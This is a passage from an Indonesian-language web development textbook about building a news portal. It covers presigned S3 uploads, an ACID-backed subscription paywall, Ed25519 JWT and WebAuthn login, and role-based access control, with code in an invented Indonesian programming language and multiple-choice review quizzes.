    tetapan url_presigned = klien_s3.buat_presigned_url(
        MetodeHTTP::PUT,
        kunci_objek,
        tipe_mime,
        Durasi::dari_menit(15)
    )?;

    kembalikan Respon::sukses_json({
        "url_unggah": url_presigned,
        "kunci_objek": kunci_objek,
        "url_akses_cdn": "https://cdn.nusantaranews.id/" + kunci_objek,
        "kedaluwarsa_detik": 900
    }.ke_json_teks()).bangun();
}
```

---

## 31.3 Analisis Efisiensi Jaringan: Server Proxy vs Direct S3 Upload

Menghilangkan peladen aplikasi dari alur transfer data media memberikan penghematan infrastruktur yang luar biasa.

| Parameter Evaluasi | Unggah Tradisional Melalui Server Web | Unggah Langsung Menggunakan S3 Presigned URL |
| :--- | :--- | :--- |
| **Beban Memori RAM Peladen** | Membengkak sebanding dengan ukuran berkas | Konstan mendekati 0 Byte |
| **Kapasitas Unggah Konkuren** | Terbatas (Server kehabisan thread koneksi) | Tak Terbatas (Ditangani langsung oleh klaster S3) |
| **Latensi Pengunggahan** | $2\times$ Lebih Lambat (Klien $\to$ Server $\to$ S3) | Kecepatan Penuh Garis Jaringan Klien $\to$ S3 |
| **Ketahanan Putus Koneksi** | Seluruh data harus diunggah ulang dari nol | Didukung *S3 Multipart Upload* (Dapat dilanjutkan) |

---

## 31.4 Latihan Praktik & Studi Kasus

1. **Implementasi Multipart Upload untuk Berkas di Atas 100 MB**: Rancang alur pengunggahan berkas video besar yang dipecah menjadi beberapa bagian (misal: potongan 10 MB per part) dengan penandatanganan presigned URL untuk setiap segmen secara paralel.
2. **Kustomisasi Kebijakan Siklus Hidup Bucket (Lifecycle Policy)**: Konfigurasikan aturan pada bucket S3 agar berkas master mentah (`raw-uploads/*`) secara otomatis dipindahkan ke kelas penyimpanan dingin (*Cold Archive Storage*) setelah 30 hari.
3. **Penyematan Tajuk Cache-Control Imutabel pada CDN**: Pastikan setiap kali objek media terunggah, sistem menyematkan metadata tajuk `Cache-Control: public, max-age=31536000, immutable` guna memaksimalkan rasio hit singgahan pada jaringan edge CDN.

---

## 31.5 Evaluasi Mandiri Pilihan Ganda

1. Protokol API penyimpanan awan standar industri apa yang didukung oleh berbagai penyedia object store modern (seperti MinIO, Ceph, AWS S3)?
   - A. S3 API (Simple Storage Service REST API)
   - B. Protokol POP3
   - C. Protokol SSH murni
   - D. Protokol Telnet

2. Apa keuntungan terbesar dari arsitektur *Direct-to-Storage Upload* menggunakan *Presigned URL*?
   - A. Beban transfer data biner berukuran ratusan megabyte tidak membebani memori dan jaringan peladen web backend, melainkan ditransfer langsung dari peramban ke klaster penyimpanan objek
   - B. Mengubah video menjadi teks secara otomatis
   - C. Menghapus rekod pengguna dari database
   - D. Mematikan sistem pendingin server

3. Standar algoritma penandatanganan kriptografis apa yang digunakan dalam pembuatan presigned URL pada ekosistem S3?
   - A. AWS Signature Version 4 (SigV4)
   - B. Enkripsi ROT13
   - C. Algoritma Base64 sederhana tanpa stempel waktu
   - D. Kode morse

4. Berapa durasi masa aktif kedaluwarsa (*Expiration Time*) yang diatur untuk presigned URL pada implementasi di atas?
   - A. 15 menit (900 detik)
   - B. 10 tahun
   - C. 1 detik
   - D. Tidak pernah kedaluwarsa

5. Metode HTTP apa yang digunakan oleh peramban klien saat mentransfer berkas biner ke URL presigned object store?
   - A. Metode HTTP `PUT` atau `POST`
   - B. Metode HTTP `DELETE`
   - C. Metode HTTP `TRACE`
   - D. Metode HTTP `OPTIONS`

6. Apa tujuan validasi tipe MIME dan ekstensi berkas di sisi peladen sebelum menerbitkan presigned URL?
   - A. Memastikan hanya berkas multimedia yang sah yang diizinkan untuk diunggah serta mencegah penyusupan berkas skrip berbahaya (seperti `.exe` atau skrip shell)
   - B. Menghemat memori flash drive pengguna
   - C. Mengubah resolusi kamera jurnalis
   - D. Menghapus watermark foto

7. Mengapa kunci objek (*Object Key*) sebaiknya menyertakan stempel tanggal dan identitas unik UUID (seperti `raw-uploads/2026-06/uuid.mp4`)?
   - A. Mencegah tabrakan nama berkas jika beberapa jurnalis mengunggah foto dengan nama yang sama (misal: `foto.jpg`), serta mempermudah partisi penyimpanan
   - B. Mengharuskan pembaca menebak alamat berkas
   - C. Mengurangi biaya listrik bulanan
   - D. Mematikan fitur pencarian berkas

8. Fitur S3 apa yang digunakan untuk mengunggah berkas video raksasa (hingga beberapa gigabyte) secara terpecah berkeping-keping secara paralel dan tangguh terhadap gangguan koneksi?
   - A. S3 Multipart Upload
   - B. Single Thread Loop
   - C. Text Stream
   - D. File Copy

9. Nilai tajuk respons `Cache-Control` apa yang ideal disematkan untuk aset gambar berita yang memiliki nama berkas unik dan tidak pernah berubah kontennya?
   - A. `public, max-age=31536000, immutable`
   - B. `no-cache, no-store`
   - C. `private, max-age=0`
   - D. `must-revalidate`

10. Apa peran Edge CDN (seperti `cdn.nusantaranews.id`) dalam distribusi berkas media berita?
    - A. Menyimpan salinan media di puluhan pusat data terdekat dengan lokasi geografis pembaca di seluruh Indonesia guna memangkas latensi dan menghemat biaya bandwidth object store
    - B. Mengedit foto jurnalis secara otomatis
    - C. Menghapus komentar pembaca
    - D. Mematikan router internet pelanggan

---

# BAB 32: TRANSAKSI ACID FINANSIAL & PAYWALL BERLANGGANAN PEMBACA

Bab ini membedah arsitektur monetisasi konten digital editorial pada NusantaraNews: implementasi sistem dinding berbayar (*Paywall* terintegrasi: *Metered Paywall* dan *Hard Paywall*), pemrosesan transaksi pembayaran langganan dengan jaminan ketat ACID (*Atomicity, Consistency, Isolation, Durability*), mitigasi manipulasi token akses, serta isolasi tingkat serial (*Serializable Transaction Isolation*).

---

## 32.1 Arsitektur Paywall Editorial & Jaminan Transaksi Finansial

Model bisnis jurnalisme investigasi berkualitas bergantung pada konversi pembaca gratis menjadi pelanggan premium berbayar. Sistem memadukan dua strategi: **Metered Paywall** (memberikan jatah 3 artikel investigasi gratis per bulan yang dilacak menggunakan token terenkripsi) dan **Hard Paywall** (menuntut verifikasi hak akses aktif sebelum fragmen naskah lengkap dikirimkan dari server).

```mermaid
sequenceDiagram
    autonumber
    actor Pelanggan as Pembaca Premium
    participant Server as Peladen WidyaWeb
    participant DB as WidyaBase Primary (ACID Engine)
    participant GatewayBayar as Payment Gateway Eksternal

    Pelanggan->>Server: POST /api/langganan/bayar (Paket: Tahunan VIP)
    Server->>DB: BEGIN TRANSACTION ISOLATION LEVEL SERIALIZABLE
    Server->>DB: INSERT INTO transaksi_pembayaran (status='pending')
    DB-->>Server: Transaksi Dibuat (Invoice: #INV-9921)
    Server->>GatewayBayar: Request Pembayaran QRIS / Kartu
    GatewayBayar-->>Pelanggan: Tampilkan Antarmuka Bayar
    Pelanggan->>GatewayBayar: Sukses Bayar
    GatewayBayar->>Server: Webhook Notifikasi Pembayaran Lunas
    Server->>DB: UPDATE transaksi_pembayaran SET status='settled'
    Server->>DB: UPDATE langganan_pengguna SET berlaku_hingga = NOW() + INTERVAL '1 YEAR'
    Server->>DB: INSERT INTO log_mutasi_saldo (kredit, debet, ...)
    Server->>DB: COMMIT (Persistensi Atomik Menyeluruh)
    DB-->>Server: Sukses Tersimpan di Disk WAL
    Server-->>Pelanggan: Hak Akses VIP Aktif Seketika
```

Seluruh mutasi status langganan dan pencatatan faktur keuangan wajib dibungkus dalam blok transaksi ACID dengan tingkat isolasi **Serializable** untuk menolak kondisi balapan (*Race Condition*) seperti pemalsuan langganan ganda (*Double Spending*).

---

## 32.2 Implementasi Paywall Guard & Transaksi Finansial di WidyaWeb

Berikut adalah implementasi middleware pengawal paywall dan prosedur transaksi finansial atomik:

```widya
// Modul Monetisasi & Transaksi NusantaraNews
gunakan widya::base::transaksi::{TingkatIsolasi, BlokTransaksi};
gunakan widya::web::middleware::{KonteksMiddleware, Respon};
gunakan widya::base::koneksi::{buka_koneksi};
gunakan widya::waktu::{ambil_waktu_sekarang};

// 1. Middleware Pengawal Konten Eksklusif (Paywall Guard)
fungsi MiddlewarePaywallVIP(ctx: KonteksMiddleware, berikutnya: FungsiLanjut) -> Respon {
    tetapan artikel_id = ctx.parameter_rute("id");
    tetapan db = buka_koneksi()?;

    // Periksa apakah artikel bersifat eksklusif VIP
    tetapan apakah_eksklusif = db.kueri_nilai_boolean(
        "SELECT apakah_konten_vip FROM artikel WHERE id = $1", 
        [artikel_id]
    )?;

    jika !apakah_eksklusif {
        kembalikan berikutnya(ctx); // Artikel gratis publik
    }

    // Periksa status otentikasi & hak langganan pengguna aktif
    tetapan auth_user = ctx.pengguna_terotentikasi();
    jika !auth_user.ada() {
        kembalikan RenderFragmenPaywallLogin();
    }

    tetapan user_id = auth_user.ambil().id;
    tetapan langganan_aktif = db.kueri_nilai_boolean("
        SELECT EXISTS (
            SELECT 1 FROM langganan_pengguna 
            WHERE pengguna_id = $1 
              AND status = 'aktif' 
              AND berlaku_hingga > NOW()
        );
    ", [user_id])?;

    jika !langganan_aktif {
        kembalikan RenderFragmenAjakanBerlangganan();
    }

    // Pengguna berhak membaca naskah penuh
    kembalikan berikutnya(ctx);
}

// 2. Prosedur Transaksi ACID Pemrosesan Pembayaran Langganan
fungsi SelesaikanPembayaranLangganan(
    nomor_invoice: Teks, 
    id_pengguna: Teks, 
    paket_hari: Bulat, 
    jumlah_bayar: Desimal
) -> Hasil<(), Galat> {
    tetapan mutabel koneksi = buka_koneksi()?;

    // Mulai Transaksi dengan Isolasi Tertinggi (Serializable)
    koneksi.mulai_transaksi(TingkatIsolasi::Serializable)?;

    coba {
        // A. Verifikasi Status Invoice Tidak Boleh Terbayar Ganda
        tetapan status_invoice = koneksi.kueri_satu(
            "SELECT status FROM transaksi_pembayaran WHERE invoice = $1 FOR UPDATE", 
            [nomor_invoice]
        )?;

        jika status_invoice.ambil("status") != "pending" {
            koneksi.batalkan_transaksi()?; // Rollback
            kembalikan Hasil::Gagal(Galat::baru("Invoice tidak dalam status menunggu pembayaran"));
        }

        // B. Mutasi Status Pembayaran
        koneksi.eksekusi(
            "UPDATE transaksi_pembayaran SET status = 'settled', dibayar_pada = NOW() WHERE invoice = $1", 
            [nomor_invoice]
        )?;

        // C. Perpanjang / Aktifkan Hak Langganan Pengguna
        koneksi.eksekusi("
            INSERT INTO langganan_pengguna (pengguna_id, status, berlaku_hingga, diperbarui_pada)
            VALUES ($1, 'aktif', NOW() + make_interval(days => $2), NOW())
            ON CONFLICT (pengguna_id) DO UPDATE SET
                status = 'aktif',
                berlaku_hingga = GREATEST(langganan_pengguna.berlaku_hingga, NOW()) + make_interval(days => $2),
                diperbarui_pada = NOW();
        ", [id_pengguna, paket_hari])?;

        // D. Catat Entri Buku Besar Akuntansi (General Ledger)
        koneksi.eksekusi("
            INSERT INTO buku_besar_keuangan (pengguna_id, tipe_mutasi, jumlah, referensi_invoice, dibuat_pada)
            VALUES ($1, 'KREDIT', $2, $3, NOW());
        ", [id_pengguna, jumlah_bayar, nomor_invoice])?;

        // E. Komit Transaksi ACID Menyeluruh
        koneksi.komit_transaksi()?;
        cetak_log("[Monetisasi] Transaksi berhasil dikomit untuk invoice: " + nomor_invoice);
        kembalikan Hasil::Sukses(());
    } tangkap(err) {
        koneksi.batalkan_transaksi()?; // Rollback otomatis saat terjadi galat
        cetak_peringatan("[Monetisasi] Transaksi dibatalkan (Rollback): " + err.pesan());
        kembalikan Hasil::Gagal(err);
    }
}
```

---

## 32.3 Analisis Kepatuhan Properti ACID

Pemberlakuan transaksi ACID melindungi reputasi hukum dan finansial portal berita dari selisih saldo dan pembobolan hak akses.

| Properti ACID | Ancaman Tanpa Jaminan ACID | Implementasi di WidyaBase |
| :--- | :--- | :--- |
| **Atomicity (Atomisitas)** | Saldo terdebet namun langganan gagal aktif (Data setengah jadi) | Prinsip *All-or-Nothing*: Seluruh tabel termutasi atau dibatalkan total (*Rollback*) |
| **Consistency (Konsistensi)** | Total mutasi debet tidak sama dengan kredit di buku besar | Validasi batasan integritas skema (*Constraints & Foreign Keys*) |
| **Isolation (Isolasi)** | Dua permintaan paralel memicu penambahan masa aktif ganda | `TingkatIsolasi::Serializable` + `SELECT FOR UPDATE` penguncian baris ketat |
| **Durability (Ketahanan)** | Pemadaman listrik setelah respons sukses menghilangkan status VIP | Setiap komit tersinkronisasi (*fsync*) ke disk jurnal WAL fisik |

---

## 32.4 Latihan Praktik & Studi Kasus

1. **Implementasi Metered Paywall dengan Kuota Baca 3 Artikel**: Rancang middleware yang melacak ID artikel yang dibaca pengguna anonim melalui cookie terenkripsi HMAC dan memunculkan pop-up langganan pada artikel keempat.
2. **Penanganan Idempotensi Webhook Pembayaran (Idempotency Key)**: Pastikan jika payment gateway mengirimkan webhook notifikasi yang sama sebanyak 3 kali karena *network retry*, sistem hanya memproses mutasi saldo tepat 1 kali (*exactly-once execution*).
3. **Penyusunan Laporan Penjualan Harian Terkonsolidasi**: Tulis kueri SQL analitik keuangan yang menghitung total pendapatan kotor (*Gross Revenue*), pemotongan pajak PPN 11%, dan jumlah pelanggan baru per kategori paket langganan.

---

## 32.5 Evaluasi Mandiri Pilihan Ganda

1. Tingkat isolasi transaksi tertinggi apa pada WidyaBase yang menjamin eksekusi transaksi konkuren menghasilkan efek yang sama persis seperti jika transaksi dieksekusi secara berurutan (*serial*)?
   - A. Read Uncommitted
   - B. Read Committed
   - C. Repeatable Read
   - D. Serializable

2. Apa yang dimaksud dengan prinsip *Atomicity* (Semua atau Tidak Sama Sekali) dalam transaksi keuangan langganan berita?
   - A. Jika terjadi kegagalan sistem di tengah proses (misal: pencatatan buku besar gagal), seluruh perubahan sebelumnya (seperti aktivasi masa aktif) harus dibatalkan total (*Rollback*)
   - B. Transaksi harus diselesaikan dalam waktu 1 detik
   - C. Seluruh transaksi wajib dicetak di kertas
   - D. Hanya berlaku untuk mata uang dolar

3. Klausa SQL apa yang digunakan untuk mengunci baris rekod secara eksklusif agar tidak dimodifikasi oleh transaksi paralel lain hingga transaksi aktif selesai?
   - A. `FOR UPDATE`
   - B. `ORDER BY`
   - C. `GROUP BY`
   - D. `DROP TABLE`

4. Mengapa artikel eksklusif VIP tidak boleh dikirimkan secara utuh ke peramban jika pengguna belum berlangganan, meskipun artikel disembunyikan menggunakan CSS (`display: none`)?
   - A. Pengguna cerdas dapat dengan mudah melihat naskah lengkap melalui fitur *Inspect Element* peramban jika HTML-nya bocor dari server (*Client-side Bypass*)
   - B. Karena CSS tidak bisa menyembunyikan teks
   - C. Karena warna teks akan memudar
   - D. Melanggar lisensi open source

5. Perintah transaksi apa yang digunakan untuk membatalkan seluruh operasi yang sempat dijalankan jika terjadi kesalahan di tengah eksekusi?
   - A. `COMMIT`
   - B. `ROLLBACK`
   - C. `EXECUTE`
   - D. `TRUNCATE`

6. Apa tujuan fungsi `GREATEST(langganan_pengguna.berlaku_hingga, NOW())` pada kueri pembaruan masa aktif langganan?
   - A. Memastikan jika pelanggan memperpanjang langganan sebelum masa aktif lamanya habis, durasi baru akan ditambahkan dari tanggal akhir lama dan bukan di-reset dari hari ini
   - B. Menghitung usia pengguna
   - C. Membatasi tanggal maksimal tahun 2050
   - D. Mengubah zona waktu ke London

7. Mengapa kunci idempoten (*Idempotency Key*) sangat penting diterapkan pada endpoint penerima webhook pembayaran?
   - A. Menjamin paket notifikasi pembayaran yang terkirim berulang kali oleh gateway pembayaran tidak menyebabkan perpanjangan langganan berlebih secara keliru
   - B. Menghemat memori RAM server
   - C. Mempercepat koneksi internet pelanggan
   - D. Mengubah kata sandi pengguna

8. Apa jaminan dari properti *Durability* pada sistem basis data WidyaBase?
   - A. Sekali sebuah transaksi berhasil dikomit, data tersebut dijamin tersimpan permanen di media penyimpanan non-volatile (WAL fisik di disk) dan tidak akan hilang meskipun terjadi mati listrik mendadak
   - B. Data tidak dapat dihapus selamanya oleh siapapun
   - C. Mengharuskan server menggunakan baterai cadangan
   - D. Membatasi ukuran database maksimal 1 Gigabyte

9. Dalam model *Metered Paywall*, apa yang umumnya diberikan kepada pembaca non-berlangganan?
   - A. Hak membaca sejumlah kecil artikel gratis (misal: 3 artikel per bulan) sebelum diwajibkan membeli paket langganan
   - B. Larangan membuka situs selamanya
   - C. Seluruh artikel gratis selamanya tanpa iklan
   - D. Hanya boleh membaca judul tanpa foto

10. Mengapa entri pencatatan buku besar (*General Ledger*) wajib menggunakan pola mutasi berpasangan (kredit dan debet)?
    - A. Memenuhi standar audit akuntansi keuangan resmi dan memastikan setiap penerimaan dana memiliki riwayat pertanggungjawaban yang seimbang dan dapat dilacak
    - B. Mengurangi kapasitas file biner basis data
    - C. Menghindari pembuatan akun oleh robot
    - D. Mempercepat waktu kompilasi kode Widya-Lang

---

# BAB 33: AUTENTIKASI JWT ED25519 & WEBAUTHN / PASSKEYS

Bab ini menyajikan arsitektur autentikasi modern tanpa kata sandi (*Passwordless Authentication*) dan berbasis token kriptografi asimetris pada NusantaraNews: penandatanganan JSON Web Token (JWT) menggunakan kurva Edwards Ed25519, rotasi token penyegar (*Refresh Token Rotation*), mitigasi pencurian token, serta integrasi standar W3C WebAuthn (Passkeys / Biometrik).

---

## 33.1 Arsitektur Kriptografi Asimetris Ed25519 & Standar WebAuthn

Penggunaan algoritma kunci simetris (seperti HS256) mengharuskan kunci rahasia yang sama dibagikan ke seluruh layanan mikro, sehingga meningkatkan risiko kebocoran. WidyaWeb menerapkan **Ed25519 (EdDSA)**, standar kriptografi kunci publik berkecepatan tinggi dengan ukuran kunci ringkas (kunci publik 32-byte) yang tahan terhadap serangan *side-channel*. Layanan autentikasi menandatangani token dengan Kunci Privat, sementara API Gateway dan layanan lain memverifikasi tanda tangan menggunakan Kunci Publik secara independen tanpa membebani basis data.

```mermaid
sequenceDiagram
    autonumber
    actor Jurnalis as Jurnalis / Redaktur
    participant Browser as Peramban (WebAuthn API)
    participant Server as Peladen Auth WidyaWeb
    participant DB as WidyaBase Primary

    Jurnalis->>Browser: Klik "Masuk dengan Passkey / Sidik Jari"
    Browser->>Server: GET /api/auth/webauthn/tantangan
    Server-->>Browser: Kirimkan Acak Tantangan Kripto (Challenge Nonce)
    Browser->>Browser: Panggil navigator.credentials.get() (Sensor Biometrik Klien)
    Browser->>Server: POST /api/auth/webauthn/verifikasi (Tanda Tangan Kunci Privat Perangkat)
    Server->>DB: Verifikasi Tanda Tangan terhadap Kunci Publik Terdaftar
    DB-->>Server: Kunci Sah (Identitas Terverifikasi)
    Server->>Server: Terbitkan Akses Token (Ed25519) + Refresh Token
    Server-->>Browser: Set Cookie HttpOnly SameSite=Strict (Aman dari XSS)
    Browser-->>Jurnalis: Berhasil Masuk ke Ruang Redaksi (Tanpa Kata Sandi)
```

---

## 33.2 Implementasi Penandatanganan JWT Ed25519 di WidyaWeb

Berikut adalah implementasi modul penerbitan dan verifikasi klaim JWT Ed25519 serta middleware pengaman rute:

```widya
// Modul Autentikasi Ed25519 NusantaraNews
gunakan widya::kripto::{Ed25519KunciPrivat, Ed25519KunciPublik, TandatanganDigital};
gunakan widya::web::jwt::{KlaimJWT, BuilderJWT, VerifikatorJWT};
gunakan widya::web::http::{Permintaan, Respon, StatusHTTP};
gunakan widya::waktu::{ambil_waktu_unix_detik};

rekod KlaimRedaksi {
    sub: Teks,       // ID Pengguna
    nama: Teks,      // Nama Lengkap
    peran: Teks,     // admin, redaktur, jurnalis, subscriber
    email: Teks,     // Alamat Surel
    exp: Bulat,      // Waktu Kedaluwarsa Unix
    iss: Teks        // Penerbit Token
}

// 1. Pembangkitan Token Akses Berbasis Ed25519
fungsi TerbitkanTokenAkses(pengguna_id: Teks, nama: Teks, peran: Teks, email: Teks, kunci_privat: Ed25519KunciPrivat) -> Teks {
    tetapan sekarang = ambil_waktu_unix_detik();
    tetapan kedaluwarsa = sekarang + (15 * 60); // Masa aktif 15 menit

    tetapan klaim = KlaimJWT::baru()
        .atur_subjek(pengguna_id)
        .atur_penerbit("https://auth.nusantaranews.id")
        .atur_kedaluwarsa(kedaluwarsa)
        .atur_klaim_kustom("nama", nama)
        .atur_klaim_kustom("peran", peran)
        .atur_klaim_kustom("email", email);

    // Tandatangani dengan kurva Ed25519
    kembalikan klaim.tandatangani_ed25519(kunci_privat)?;
}

// 2. Verifikasi Token di Sisi Gateway / Middleware (Hanya Membutuhkan Kunci Publik)
fungsi VerifikasiTokenAkses(token_mentah: Teks, kunci_publik: Ed25519KunciPublik) -> Hasil<KlaimRedaksi, Galat> {
    tetapan verifikator = VerifikatorJWT::baru(kunci_publik)
        .wajib_penerbit("https://auth.nusantaranews.id")
        .toleransi_waktu_detik(30);

    tetapan hasil_klaim = verifikator.periksa(token_mentah)?;
    
    kembalikan Hasil::Sukses(KlaimRedaksi {
        sub: hasil_klaim.ambil_subjek(),
        nama: hasil_klaim.ambil_klaim_kustom("nama"),
        peran: hasil_klaim.ambil_klaim_kustom("peran"),
        email: hasil_klaim.ambil_klaim_kustom("email"),
        exp: hasil_klaim.ambil_kedaluwarsa(),
        iss: hasil_klaim.ambil_penerbit()
    });
}
```

---

## 33.3 Analisis Efisiensi & Keamanan Algoritma JWT

Kurva Ed25519 menawarkan kombinasi keamanan militer dan kecepatan verifikasi tertinggi dibanding RSA dan ECDSA.

| Algoritma Tanda Tangan | Ukuran Kunci Publik | Ukuran Signature | Kecepatan Verifikasi | Ketahanan Terhadap Serangan Kripto |
| :--- | :--- | :--- | :--- | :--- |
| **RSA-2048** | 256 Byte | 256 Byte | 0.42 ms | Rentan jika pembangkit acak lemah |
| **ECDSA (P-256)** | 64 Byte | 64 Byte | 0.18 ms | Rentan terhadap kebocoran nonce |
| **Ed25519 (WidyaWeb)** | 32 Byte (Sangat Ringkas) | 64 Byte | 0.04 ms ($10\times$ Lebih Cepat) | Sangat Kuat (Deterministik Bebas Nonce) |

---

## 33.4 Latihan Praktik & Studi Kasus

1. **Implementasi Refresh Token Rotation dengan Deteksi Penggunaan Ganda**: Bangun mekanisme di mana setiap kali refresh token digunakan, token tersebut langsung digantikan dengan token baru di dalam transaksi database; jika token lama dicoba digunakan kembali, seluruh sesi pengguna langsung dicabut karena dicurigai terjadi pencurian sesi (*Token Reuse Detection*).
2. **Registrasi Kredensial WebAuthn (Passkeys Registration)**: Tulis handler untuk memproses registrasi autentikasi sidik jari baru menggunakan API peramban `navigator.credentials.create()`.
3. **Penyimpanan Akses Token Aman di Cookie HttpOnly**: Konfigurasikan peladen agar token JWT dikirimkan ke peramban dalam cookie dengan atribut `HttpOnly; Secure; SameSite=Strict` untuk memitigasi serangan pencurian token melalui celah Cross-Site Scripting (XSS).

---

## 33.5 Evaluasi Mandiri Pilihan Ganda

1. Algoritma tanda tangan kurva eliptis modern apa yang digunakan oleh WidyaWeb untuk penerbitan token JWT berkecepatan tinggi dan berukuran kunci ringkas?
   - A. Ed25519 (EdDSA)
   - B. DES 56-bit
   - C. MD5
   - D. ROT13

2. Mengapa algoritma kunci asimetris (seperti Ed25519) lebih aman dalam arsitektur banyak microservice dibanding kunci simetris (seperti HS256)?
   - A. Layanan backend verifikator hanya perlu memegang Kunci Publik, sehingga kebocoran satu layanan tidak mengekspos Kunci Privat yang bertugas menandatangani token
   - B. Karena kunci asimetris menghapus kata sandi pengguna
   - C. Karena kuncinya dicetak di atas kertas sertifikat
   - D. Mengharuskan pengguna membayar biaya royalti kripto

3. Standar W3C modern apa yang memungkinkan pengguna masuk ke portal web menggunakan sensor biometrik perangkat (sidik jari, FaceID) atau kunci fisik USB tanpa perlu mengetik kata sandi?
   - A. WebAuthn (FIDO2 / Passkeys)
   - B. Flash Player
   - C. ActiveX Controls
   - D. Silverlight

4. Berapa durasi masa aktif yang direkomendasikan untuk Access Token JWT jangka pendek pada implementasi di atas?
   - A. 15 menit
   - B. 10 tahun
   - C. 24 jam
   - D. Tidak pernah kedaluwarsa

5. Apa tujuan utama dari teknik *Refresh Token Rotation*?
   - A. Setiap kali refresh token dipakai untuk meminta access token baru, refresh token lama segera dibatalkan dan diganti dengan yang baru guna mendeteksi serta menggagalkan aksi pencurian token
   - B. Mengubah peran pengguna menjadi administrator secara acak
   - C. Menghapus akun email jurnalis
   - D. Mengubah warna tombol login peramban

6. Atribut cookie apa yang menjamin bahwa token autentikasi tidak dapat dibaca atau dicuri oleh kode JavaScript di sisi peramban (misal saat terjadi serangan XSS)?
   - A. `HttpOnly`
   - B. `Domain`
   - C. `Path`
   - D. `Max-Age`

7. Klaim standar `sub` (Subject) dalam muatan payload JWT digunakan untuk menyimpan informasi apa?
   - A. Pengenal unik identitas pengguna (User ID)
   - B. Judul artikel berita yang sedang dibaca
   - C. Alamat IP kantor redaksi
   - D. Nomor kartu kredit

8. Berapa ukuran fisik kunci publik Ed25519?
   - A. 32 Byte
   - B. 2048 Byte
   - C. 1 Megabyte
   - D. 4 Kilobyte

9. Dalam protokol WebAuthn, di manakah Kunci Privat autentikasi biometrik disimpan secara aman?
   - A. Di dalam chip perangkat keras aman milik pengguna (seperti TPM, Secure Enclave ponsel, atau YubiKey) dan tidak pernah keluar ke jaringan internet
   - B. Di basis data server pusat
   - C. Di berkas teks komputer jurnalis
   - D. Di media sosial

10. Apa risiko utama jika Access Token JWT memiliki masa kedaluwarsa yang terlampau panjang (misalnya 30 hari)?
    - A. Jika token dicuri oleh peretas, token tersebut akan terus berlaku dan tidak dapat dicabut dengan mudah tanpa mekanisme daftar hitam token (*Token Blacklist*) yang rumit
    - B. Komputer akan kehabisan memori RAM
    - C. Kecepatan koneksi internet akan berkurang drastis
    - D. Peramban akan menolak menampilkan gambar

---

# BAB 34: KONTROL AKSES RBAC REDAKSI & MATRIKS IZIN

Bab ini membahas perancangan dan implementasi sistem Kontrol Akses Berbasis Peran (*Role-Based Access Control / RBAC*) pada portal berita NusantaraNews: pemisahan hak istimewa redaksi (Pemimpin Redaksi, Editor Rubrik, Jurnalis Penulis, Moderator Komentar, Pembaca VIP), evaluasi izin berbasis tindakan (*Action-Based Permission Engine*), serta pengamanan berlapis pada antarmuka manajemen redaksi (*CMS Dashboard*).

---

## 34.1 Teori Otorisasi RBAC & Matriks Hak Istimewa Redaksi

Manajemen penerbitan media nasional menuntut pemisahan wewenang (*Separation of Duties*) yang ketat guna mencegah penerbitan berita palsu, kebocoran draf investigasi, atau manipulasi iklan. RBAC memisahkan pengguna dari hak istimewa dengan memperkenalkan lapisan perantara berupa **Peran (Roles)** dan sekumpulan **Izin (Permissions)** atomik.

```mermaid
classDiagram
    class Pengguna {
        +UUID id
        +Teks nama
        +Senarai~Peran~ peran_aktif
        +apakah_boleh(izin) BenarSalah
    }
    class Peran {
        +Teks kode_peran
        +Teks deskripsi
        +Senarai~Izin~ daftar_izin
    }
    class Izin {
        +Teks cakupan
        +Teks aksi
        +Teks kode_lengkap
    }
    Pengguna "1" o-- "*" Peran : memiliki
    Peran "1" o-- "*" Izin : mengelompokkan
```

Matriks Izin Baku Ruang Redaksi NusantaraNews:

| Peran Redaksi | Tulis Draf (`article:create`) | Edit Naskah Sendiri (`article:edit_own`) | Sunting Semua Naskah (`article:edit_all`) | Terbitkan Berita (`article:publish`) | Hapus Berita (`article:delete`) | Moderasi Komentar (`comment:moderate`) |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: |
| **Jurnalis** | Ya | Ya | Tidak | Tidak | Tidak | Tidak |
| **Editor Rubrik** | Ya | Ya | Ya (Rubrik) | Ya | Tidak | Tidak |
| **Pemimpin Redaksi** | Ya | Ya | Ya | Ya | Ya | Ya |
| **Moderator Komentar** | Tidak | Tidak | Tidak | Tidak | Tidak | Ya |

---

## 34.2 Implementasi Mesin Evaluasi Izin di WidyaWeb

Berikut adalah implementasi pustaka kontrol izin deklaratif dan middleware pengaman rute CMS:

```widya
// Modul RBAC & Izin NusantaraNews
gunakan widya::web::rbac::{PohonIzin, PeranRedaksi, PenegakKebijakan};
gunakan widya::web::http::{Permintaan, Respon, StatusHTTP};
gunakan widya::base::koneksi::{buka_koneksi};

// 1. Matriks Izin Statis
fungsi BangunMatriksIzinRedaksi() -> PenegakKebijakan {
    tetapan mutabel penegak = PenegakKebijakan::baru();

    // Daftarkan Peran & Izin Atomik
    penegak.tambah_peran("jurnalis", [
        "article:create", 
        "article:edit_own", 
        "media:upload"
    ]);

    penegak.tambah_peran("editor_rubrik", [
        "article:create", 
        "article:edit_own", 
        "article:edit_rubrik", 
        "article:publish_rubrik", 
        "media:upload"
    ]);

    penegak.tambah_peran("pemimpin_redaksi", [
        "article:*", 
        "comment:*", 
        "user:manage", 
        "system:settings"
    ]);

    penegak.tambah_peran("moderator", [
        "comment:view", 
        "comment:approve", 
        "comment:delete"
    ]);

    kembalikan penegak;
}

// 2. Middleware Pengecekan Izin Spesifik
fungsi WajibIzin(kode_izin: Teks) -> Middleware {
    kembalikan fungsi(ctx: KonteksMiddleware, berikutnya: FungsiLanjut) -> Respon {
        tetapan pengguna_opsi = ctx.pengguna_terautentikasi();
        jika !pengguna_opsi.ada() {
            kembalikan Respon::status(StatusHTTP::Unauthorized)
                .atur_badan_json({"error": "Sesi autentikasi diperlukan"})
                .bangun();
        }

        tetapan pengguna = pengguna_opsi.ambil();
        tetapan penegak = BangunMatriksIzinRedaksi();

        // Evaluasi apakah pengguna memiliki hak akses (mendukung wildcard '*')
        jika !penegak.apakah_diizinkan(pengguna.peran, kode_izin) {
            cetak_peringatan("[RBAC] Akses ditolak: Pengguna " + pengguna.id + " (" + pengguna.peran + ") mencoba aksi " + kode_izin);
            kembalikan Respon::status(StatusHTTP::Forbidden)
                .atur_badan_json({"error": "Akses Ditolak: Anda tidak memiliki wewenang untuk tindakan ini"})
                .bangun();
        }

        kembalikan berikutnya(ctx);
    };
}
```

Penerapan pada pendaftaran rute deklaratif WidyaWeb:

```widya
// Rute Ruang Redaksi yang Dilindungi
router.pos("/api/admin/articles/publish", WajibIzin("article:publish_rubrik"), TanganiPublikasiArtikel);
